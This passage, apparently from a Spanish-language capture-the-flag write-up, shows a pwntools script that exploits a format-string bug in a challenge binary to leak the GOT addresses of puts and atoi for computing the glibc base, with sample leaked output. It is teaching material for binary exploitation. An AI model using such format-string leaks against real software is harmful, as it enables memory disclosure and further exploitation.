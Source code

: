 Para conseguir direcciones de algunas funciones del binario para calcular la dirección base de *glibc* podemos utilizar el siguiente script en [[python]] con [[pwntools]]:

```python
#!/bin/python3

from pwn import *

binary = './chall'
exe = ELF(binary)

def send_payload(io, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    io.sendlineafter("A: ", a)
    io.sendlineafter("B: ", b)

def send_format(io, format, values):
    format_prefix = b'1___'
    values_prefix = b'1_______'
    send_payload(io, format_prefix + format, values_prefix + values)
    out = io.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res

log.info(f"puts() GOT address: {hex(exe.got['puts'])}")

fmt_first_offset = 43

io = start()
output = send_format(io, f"%{fmt_first_offset}$s".encode("ascii"), p64(exe.got["puts"]))
puts_addr_str = output
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
```

Al ejecutarlo obtendremos la dirección de *puts* tanto en el binario como en la [[GOT]]:

```
[...]
puts() GOT address: 0x601018
[...]
puts() runtime address: 0x7efdc2572980
[...]
```

Vamos a tratar de buscar también la dirección de *atoi*, para ello haremos algunos cambios en el script:

```python
log.info(f"puts() GOT address: {hex(exe.got['puts'])}")
log.info(f"atoi() GOT address: {hex(exe.got['atoi'])}")

fmt_first_offset = 43

io = start()
output = send_format(io, f"%{fmt_first_offset}$s.%{fmt_first_offset + 1}$s.".encode("ascii"), p64(exe.got["puts"]) + p64(exe.got["atoi"]))
puts_addr_str, atoi_addr_str, *rest = output.split(b".")
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
atoi_addr = int.from_bytes(atoi_addr_str, "little") 
log.info(f"atoi() runtime address: {hex(atoi_addr)}")
```
